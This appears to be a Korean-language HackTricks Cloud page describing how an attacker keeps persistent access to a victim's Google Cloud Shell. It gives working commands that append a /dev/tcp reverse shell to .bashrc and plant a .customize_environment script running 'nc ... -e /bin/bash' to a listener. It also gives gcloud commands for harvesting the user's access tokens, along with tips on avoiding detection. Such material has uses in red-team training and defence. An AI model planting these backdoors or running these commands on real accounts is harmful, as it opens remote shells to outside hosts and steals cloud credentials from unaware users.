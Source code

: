 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/)은 브라우저에서 직접 클라우드 리소스에 대한 명령줄 액세스를 제공하며, 관련 비용이 없습니다.

**웹 콘솔**에서 또는 **`gcloud cloud-shell ssh`**를 실행하여 Google의 Cloud Shell에 액세스할 수 있습니다.

이 콘솔은 공격자에게 몇 가지 흥미로운 기능을 제공합니다:

1. **Google Cloud에 액세스할 수 있는 모든 Google 사용자**는 완전히 인증된 Cloud Shell 인스턴스에 액세스할 수 있습니다 (서비스 계정도 조직의 소유자일 경우 가능합니다).
2. 해당 인스턴스는 **활동이 없으면 최소 120일 동안 홈 디렉토리를 유지**합니다.
3. 해당 인스턴스의 활동을 **모니터링할 수 있는 조직의 기능이 없습니다**.

이는 기본적으로 공격자가 사용자의 홈 디렉토리에 백도어를 설치할 수 있으며, 사용자가 최소 120일마다 GC Shell에 연결하기만 하면 백도어가 살아남고 공격자는 매번 실행할 때마다 셸을 얻을 수 있음을 의미합니다:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

홈 폴더에 **`.customize_environment`**라는 또 다른 파일이 있으며, 이 파일이 존재하면 사용자가 **cloud shell**에 접근할 때마다 **실행됩니다** (이전 기술과 유사하게). 사용자가 "자주" cloud shell을 사용할 때 지속성을 유지하기 위해 이전 백도어 또는 다음과 같은 백도어를 삽입하면 됩니다:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
인증이 필요한 작업이 **처음 수행될 때**, 사용자의 브라우저에 팝업 인증 창이 나타나는 것이 중요합니다. 이 창은 명령이 실행되기 전에 수락해야 합니다. 예상치 못한 팝업이 나타나면 의심을 불러일으킬 수 있으며 사용 중인 지속성 방법이 손상될 수 있습니다.
{% endhint %}

이것은 클라우드 셸에서 `gcloud projects list`를 실행한 후 (공격자로서) 브라우저 사용자 세션에서 본 팝업입니다:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

그러나 사용자가 클라우드 셸을 적극적으로 사용한 경우, 팝업이 나타나지 않으며 **사용자의 토큰을 수집할 수 있습니다**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH 연결이 설정되는 방법

기본적으로, 이 3개의 API 호출이 사용됩니다:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (로컬에서 생성한 공개 키를 추가하게 됩니다)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (인스턴스를 시작하게 됩니다)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (구글 클라우드 셸의 IP를 알려줍니다)

하지만 [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)에서 추가 정보를 찾을 수 있습니다.

## 참고자료

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
